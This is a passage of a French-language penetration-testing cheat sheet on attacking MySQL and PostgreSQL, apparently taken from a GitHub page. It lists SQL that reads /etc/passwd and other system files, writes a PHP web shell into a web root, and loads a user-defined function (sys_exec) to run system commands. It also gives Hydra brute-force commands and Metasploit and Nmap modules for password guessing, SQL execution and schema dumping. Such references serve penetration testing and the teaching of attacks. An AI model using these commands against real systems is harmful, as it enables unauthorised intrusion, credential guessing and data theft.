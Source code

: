 ```sql

-- Variables importantes
SHOW variables LIKE 'secure_file_priv';
SHOW variables LIKE 'general_log%';
SELECT @@datadir;

-- Lecture de fichiers (si privilèges)
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('C:\\windows\\system32\\drivers\\etc\\hosts');

-- Écriture de fichiers
SELECT 'shell code' INTO OUTFILE '/var/www/html/shell.php';

-- UDF (User Defined Functions) pour RCE
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
SELECT sys_exec('id');
```

### Brute Force MySQL avec Hydra
```bash
# Brute force utilisateur root
hydra -l root -P passwords.txt mysql://target

# Avec liste d'utilisateurs
hydra -L users.txt -P passwords.txt mysql://target

# Options recommandées
hydra -L users.txt -P passwords.txt -t 16 -f mysql://target

# Avec port personnalisé
hydra -l root -P passwords.txt -s 3307 mysql://target
```

---

## 🐘 2. PostgreSQL (Port 5432) - Énumération & Exploitation

### Scripts Nmap pour PostgreSQL
| Script | Description | Usage |
|--------|-------------|-------|
| `pgsql-brute` | Brute force PostgreSQL | `nmap --script pgsql-brute target` |

### Modules Metasploit PostgreSQL
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/postgres/postgres_version` | Version PostgreSQL | `use auxiliary/scanner/postgres/postgres_version` |
| `auxiliary/scanner/postgres/postgres_login` | Brute force PostgreSQL | `use auxiliary/scanner/postgres/postgres_login` |
| `auxiliary/admin/postgres/postgres_sql` | Exécution SQL | `use auxiliary/admin/postgres/postgres_sql` |
| `auxiliary/scanner/postgres/postgres_schemadump` | Dump schéma | `use auxiliary/scanner/postgres/postgres_schemadump` |
